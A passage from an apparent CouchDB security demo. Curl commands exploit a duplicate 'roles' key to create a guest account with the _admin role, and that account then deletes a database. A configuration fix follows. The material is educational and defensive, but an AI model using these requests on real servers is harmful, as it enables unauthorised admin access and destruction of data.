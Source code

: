 7. Query: Create a new database named `new_records`

   ```bash
   curl -X PUT http://localhost:5984/new_records
   ```

   Oops! We can no longer create a new database because the Admin Party is crashed when the first admin account was created.

8. Query: Create a new database named `new_recors` with admin authentication

   ```bash
   curl -X PUT http://admin:admin@localhost:5984/new_records
   ```

9. Query: Create a new document in `_users` database

   ```bash
   curl -X PUT http://localhost:5984/_users/org.couchdb.user:guest \
       -H "Accept: application/json" \
       -H "Content-Type: application/json" \
       -d '{"name": "guest", "password": "guest", "roles": ["_admin"], "roles": [], "type": "user"}'
   ```

   Here we can create a new document in `_users` database, but with restrictions on its arguments.
   We can bypass the restrictions by duplicating the `roles` field as explained before.

10. Query: Delete the database named `new_records`

    ```bash
    curl -X DELETE http://localhost:5984/new_records
    ```

    Oops! We can't because we don't have admin role.

11. Query: Delete the database named `new_records` with guest authentication

    ```bash
    curl -X DELETE http://guest:guest@localhost:5984/new_records
    ```

    Bingo! We deleted the database even if the guest account is created as a normal user.

The demo proved that any user can create an account with admin role and act on the database as if he's an admin.

## How to prevent

We can distinguish two kinds of CouchDB instances:

- Public CouchDB instance: The database server has a public access, and any user can connect to the database instance using the IP address of the server and the configured port for the database.
- Internal CouchDB instance: The database server has a private access, and only a group of users (local network for instance) can access the database.

By default, a CouchDB instance can be requested by anonymous users. To ensure that all allowed requests are only from authenticated users, we can set the `require_valid_user` to `true` in the database config file. By doing this, no requests are allowed from anonymous users, everyone must be authenticated.
